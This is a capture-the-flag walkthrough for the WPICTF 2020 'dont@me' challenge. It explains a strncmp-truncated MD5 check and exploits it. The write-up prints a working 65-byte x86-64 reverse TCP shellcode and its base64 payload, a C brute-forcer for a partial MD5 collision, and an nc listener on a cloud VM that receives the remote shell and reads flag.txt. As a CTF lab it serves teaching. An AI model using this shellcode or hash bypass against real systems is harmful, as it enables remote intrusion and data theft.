





# WPICTF 2020

## dont@me

> 200
>
> WORKING AGAIN. If you have any trouble, please contact admins on discord (awg). Same binary as before. Twitter api gets weird with tweets longer than 140 characters, so try to keep them shorter. (@name doesn't add to length) Also twitter api can be somewhat slow. Give it at least 10 min before giving up. Also don't use a private account, that just wont work.
>
> `tweet @JohnSmi31885382`
>
> made by: rm -k, fixed by awg
>  
> [runtweet](runtweet) 

Tags: _pwn_


### Introduction

I did not finish this challenge before the end of the CTF.  It also was not obvious to me what the challenge was. After the CTF a teammate told me what we were supposed to do.  _Doh!_  This is the seconds remote shellcode CTF challenge I missed this season.  Bummer.  Anyway, since the challenge is still up I thought I'd give it a go for the lulz and write it up here as a walkthrough.

The game masters have `runtweet` running somewhere processing tweets to _@JohnSmi31885382_.  That's all you need to know to get started.


**WTF!?!?!? :-)**

> Given some of the [tweets](dont@me-tweets.png) (Poop.), I think others were a bit confused as well.


### Analysis

#### Decompile with Ghidra



`main` just takes the first argument to `runtweet` from the CLI (line 21), base64 decodes it (line 24), md5sums it (line 29), then calls `validate_hash` (line 30).

If `validate_hash` returns true, then whatever was passed from the CLI will be executed as shellcode (line 36).

Clearly that is the challenge.  Craft some shellcode, base64 encode it, tweet it to _@JohnSmi31885382_, so that the game masters `runtweet` will run it.  The shellcode will need to setup a reverse shell, or open a socket and send `flag.txt`, etc...  Tweets are limited in length, so I'd be a short shellcode (140 characters is almost infinity for shellcode :-).



`validate_hash` calls `hash_shellcode` and then does a `strncmp`, clearly this needs to pass, so that the shellcode will be called.

`strncmp` only compares up to the first null.  This is most likely the vuln.

The loop in `validate_hash` never itterates more than once.  The only parameters passed to `hash_shellcode` are the 24 character buffer for the md5sum and the integer zero.

> Just the interesting bits of `hash_shellcode`:



`hash_shellcode` takes the second parameter (0 in this case), finds a string pointer in the table `valid_shellcodes` (with index 0), converts to binary, then returns the md5sum.



The first string is located at `0x102008`:

```
b801000000bf01000000488d3508000000ba0c0000000f05c348656c316f207730724c642e00
```

This should be pretty easy to test from the CLI:

```
# ./runtweet $(echo b801000000bf01000000488d3508000000ba0c0000000f05c348656c316f207730724c642e00 | xxd -r -p | base64)
Hel1o w0rLd.Poop.
```

`Hel1o w0rld` shellcode.  This can be confirmed by disassembling the shellcode as well:

```
0x00000000: b8 01 00 00 00       mov eax, 1
0x00000005: bf 01 00 00 00       mov edi, 1
0x0000000a: 48 8d 35 08 00 00 00 lea rsi, [rip + 8]
0x00000011: ba 0c 00 00 00       mov edx, 0xc
0x00000016: 0f 05                syscall
0x00000018: c3                   ret
0x00000019: 48 65 6c             insb byte ptr [rdi], dx
0x0000001c: 31 6f 20             xor dword ptr [rdi + 0x20], ebp
0x0000001f: 77 30                ja 0x51
0x00000021: 72 4c                jb 0x6f
```

This code just loops through the characters starting at `0x19`, i.e. `0x48` (`H`), `0x65` (`e`), etc... and emits to `stdout`.

To compute md5sum of the shellcode:

```
# echo b801000000bf01000000488d3508000000ba0c0000000f05c348656c316f207730724c642e00 | xxd -r -p | md5sum
79fc008108a92bcd7edb7cb63ea714b3  -
```

As suspected, the 3rd byte is a null.  That is the vuln.  We'll have to craft some shellcode with the same 3 md5sum bytes if we want remote shellcode execution.


### Exploit

#### Attack Plan

1. Find some reverse shellcode
2. Setup a server in the cloud and test shellcode
3. Brute-force an md5sum
4. Tweet and get the flag


#### Find some reverse shellcode

Google for Linux shellcode and your first hit will most likely be [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/).  Scroll down to _Intel x86-64_ and the first item is _[Intel x86-64
Linux/x86-64 - Dynamic null-free reverse TCP shell](http://shell-storm.org/shellcode/files/shellcode-907.php) - 65 bytes by Philippe Dugre_

This is some quality work.  It does all the work for you.  However, I do recommend the following changes:

First change:

```python
    number = -number[0]        #negate
```    

to:

```python
    number = -number[0] & 0xFFFFFFFFFFFFFFFF        #negate
```

If not, the following `struck.pack` may fail with `struct.error: int too large to convert`.

Next, add:

```python
    open('shellcode','wb').write(shellcode)
```

before:
    
```python
    #####################################################################
    #                   TESTING THE SHELLCODE                           #
    #####################################################################
```

This will write to disk our shellcode.

After the changes save as `shellcode.py`.


#### Setup a server in the cloud and test shellcode

> In the interest of brevity I'm going to skip the _test locally_ and go straight to testing in the cloud.

Most cloud providers have a free tier, just get a free Linux VM, and make sure you add port `4444` to the security group and permit any IP (usually something like `0.0.0.0/0`).

`ssh` in and type:

```
$ nc -l 4444
cat flag.txt
```

The `cat flag.txt` will be sitting in buffer and will go through when the remote server connects.

From your local machine edit `shellcode.py` and put in the IP address of your cloud VM, then run it:

```
echo "my test flag" >flag.txt
./shellcode.py
```

First you'll get the shellcode:

```
Number of instructions: 37

Shellcode length: 65

shellcode = 	b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e"
shellcode += 	b"\x0f\x05\x97\xb0\x2a\x48\xb9\xfe\xff\xee"
shellcode += 	b"\xa3\xed\x24\x67\x29\x48\xf7\xd9\x51\x54"
shellcode += 	b"\x5e\xb2\x10\x0f\x05\x6a\x03\x5e\xb0\x21"
shellcode += 	b"\xff\xce\x0f\x05\x75\xf8\x99\xb0\x3b\x52"
shellcode += 	b"\x48\xb9\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
shellcode += 	b"\x51\x54\x5f\x0f\x05"

If you want to debug, attach the debugger to the python process with pid 23541 then press enter.
```

At this point just press [return] and check your cloud VM session, it should have _captured the flag:_

```
$ nc -l 4444
cat flag.txt
my test flag
```

Well that was stupid simple.


#### Brute-force an md5sum

> Python was taking too long for this, so C it is:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <openssl/md5.h>

int main()
{
    unsigned int i,j,ret;
    FILE *f;
    unsigned char buf[70];
    unsigned char result[MD5_DIGEST_LENGTH];

    f = fopen("shellcode","rb");
    ret = fread(buf,65,1,f);
    fclose(f);
    buf[69]=buf[70]=0;

    for(i=0;i<(1 << 31);i++) {
        buf[65]=i % 0xff;
        buf[66]=(i >> 8) & 0xff;
        buf[67]=(i >> 16) & 0xff;
        buf[68]=(i >> 24) & 0xff;

        MD5(buf, 70, result);

        if(result[0] != 0x79 || result[1] != 0xfc || result[2] != 0x00)
            continue;

        for(j = 0; j < MD5_DIGEST_LENGTH; j++)
            printf("%02x", result[j]);
        printf("\n");

        f = fopen("newcode","wb");
        ret = fwrite(buf,70,1,f);
        fclose(f);

        break;
    }

    return EXIT_SUCCESS;
}
```

We already know from the _Analysis_ section the first 3 bytes (including the null) of the expected md5sum will be `0x79`, `0xfc`, and `0x00`.

The C code above will increment a counter, append to `shellcode`, compute the md5sum, and check for a match.  This took about 7 seconds (31,845,463 iterations):

```
gcc -O3 -o findhash findhash.c
time ./findhash
```

Output:

```
79fc00aff413e296c80107da17219904

real   0m6.775s
user   0m6.749s
sys    0m0.003s
```

`findhash` will output a new shellcode `newcode` with the added bytes.  Check with md5sum:

```
# md5sum newcode
79fc00aff413e296c80107da17219904  newcode
```

First 3 bytes are a match.

#### Tweet and get the flag

Before tweeting, kill and restart your `nc -l 4444` on your cloud server and type `cat flag.txt` (this is not absolutely necessary, you could type `id`, or _nothing_ and keep typing into the void until the remote `runtweet` connects:

```
$ nc -l 4444
cat flag.txt
```

Generate your payload:

```
# base64 -w0 newcode
ailYmWoCX2oBXg8Fl7AqSLn+/+6j7SRnKUj32VFUXrIQDwVqA16wIf/ODwV1+JmwO1JIuS9iaW4vL3NoUVRfDwUr7OUBAA==
```

And tweet _@JohnSmi31885382_:



In my case, within seconds:

```
$ nc -l 4444
cat flag.txt
WPI{b10kd_@nD_r33p0rtEd}
```

#### Flag

```
WPI{b10kd_@nD_r33p0rtEd}
```


 
